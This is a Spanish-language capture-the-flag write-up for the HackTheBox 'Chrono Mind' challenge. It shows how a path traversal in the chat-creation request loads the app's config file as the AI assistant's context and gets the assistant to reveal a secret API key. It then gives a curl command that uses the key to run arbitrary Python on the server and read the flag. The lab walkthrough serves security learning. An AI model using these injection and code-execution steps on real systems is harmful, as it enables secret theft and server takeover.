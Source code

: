 ```yaml
---
title: Chrono Mind Misc CTF - HackTheBox
date: 2025-02-16 11:00:00 +0000
categories: [HacktheBox, CTF, Misc]
tags: [HacktheBox, CTF, Misc]
image:
  path: /assets/img/cabeceras_genericas/htb.jpg
  alt: Chrono Mind Misc CTF - HackTheBox
description: >
  Guía de explotación de vulnerabilidades en el CTF HackTheBox ChronoMind Misc.
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


# Contexto

Se nos proporciona acceso a una web con tres opciones de contexto que se le van a proporcionar a la IA para poder hacerle preguntas.

En el código que nos podemos descargar tenemos las funciones principales que usa la API de la IA Chrono Mind.

# Modificando el contexto de la IA

En el fichero "utils.py" vamos a ver la función que se encarga de obtener el fichero de contexto.

```python
def getRepository(topic):
    for suffix in ['', '.md']:
        repoFile = f"{Config.knowledgePath}/{topic}{suffix}"
        print(repoFile)
        if os.path.exists(repoFile):
            return readFile(repoFile)
    return None
```

La variable viene desde el archivo config.py.

```python
import os

class Config():
    roomID = None
    createProgress = False
    chatProgress = False
    knowledgePath = f"{os.getcwd()}/repository"
    copilot_key = "REDACTED_SECRET"
```
Como vemos también se configura una clave API para algo llamado Copilot.

Ahora para poder modificar el contexto de un chat, vamos a interceptar la petición que se hace a la API de /create.

![alt text](/assets/img/posts/chronomind_htb/image.png)

Al modificar el archivo de contexto haciendo un path traversal, le damos la clave de API que necesitamos para poder llamar a Copilot.

# Función para llamar a Copilot

En la ruta /route/api.py vamos a encontrar el codigo API que maneja la IA.

Una de las funciones que se puede llamar es la llamada a copilot/complete_adn_run

```python
@router.post("/copilot/complete_and_run")
def copilot_complete_and_run(response: Response, params: copilotParams):
    if Config.copilot_key != params.copilot_key:
        response.status_code = 403
        return {"message": "Invalid API key"}

    # get code completion
    completion = lm.code(params.code)

    if not completion.strip():
        return {"message": "Failed to get code completion"}

    full_code = params.code + completion.strip()

    # return the response
    return {"completion": full_code, "result": evalCode(full_code)}
```

Como vemos en la función copilot_complete_and_run, se llama a la función evalCode que se encarga de ejecutar el código completo, pero es necesaria la API_key para poder llamar a Copilot.

Si en utils.py comprobamos el código de la función evalCode

```python
def evalCode(code):
    output = ""
    random = uuid.uuid4().hex
    filename = os.path.join("uploads/") + random + ".py"
        # Guarda el código en un archivo y lo ejecuta
    try:
        with open(filename, "w") as f:
            f.write(code)

        output = subprocess.run(
            ["python3", filename],
            timeout=10,
            capture_output=True,
            text=True,
        ).stdout.strip("\n")

        cleanup(filename)

        return output

    except Exception as e: # handle any exception
        print(e, flush=True)
        cleanup(filename)
        return False
```

Por lo que si conseguimos inyectar codigo lo ejecutará.

# Obteniendo la API_key

Bien, ahora que tenemos el chat con el contexto modificado simplemente le preguntamos a la IA cual es la clave de API.

![alt text](/assets/img/posts/chronomind_htb/image-1.png)

# Obteniendo la flag

Ahora con la clave de API podemos llamar a Copilot y obtener la flag.

Para saber los parámetros que usa simplemente en api.py podemos observar las variables que se pasan a copilot_complete_and_run.

```python
class copilotParams(BaseModel):
    code: str
    copilot_key: str
```
Ahora mediante curl podemos llamar a copilot/complete_and_run y obtener la flag, ya que sabemos que lo que hace es crear un archiv .py que se ejecuta con el contenido del parámetro code.

1. Listamos los directorios en la raíz del servidor.

```bash
❯ curl -X POST http://94.237.59.180:54043/api/copilot/complete_and_run \
-H "Content-Type: application/json" \
-d '{"code": "import os; print(os.listdir(\"/\"))", "copilot_key": "4928309140372768"}'
{"completion":"import os; print(os.listdir(\"/\"))# 列表\nprint(os.listdir(\"/home/\")) # 打印目录下面的文件","result":"['media', 'var', 'bin', 'srv', 'dev', 'opt', 'run', 'root', 'sys', 'usr', 'sbin', 'mnt', 'proc', 'lib64', 'tmp', 'boot', 'etc', 'lib', 'home', 'readflag']\n['chrono']"}%
```

Si observamos hay un directorio o fichero llamado "readflag". Si nos fijamos en el codigo que nos permiten descargar, encontramos un ficho llamado "readflag.c" que nos permite leer la flag.

Sabiendo esto podemos simplemente ejecutar el fichero y obtener la salida.

![alt text](/assets/img/posts/chronomind_htb/image-2.png)

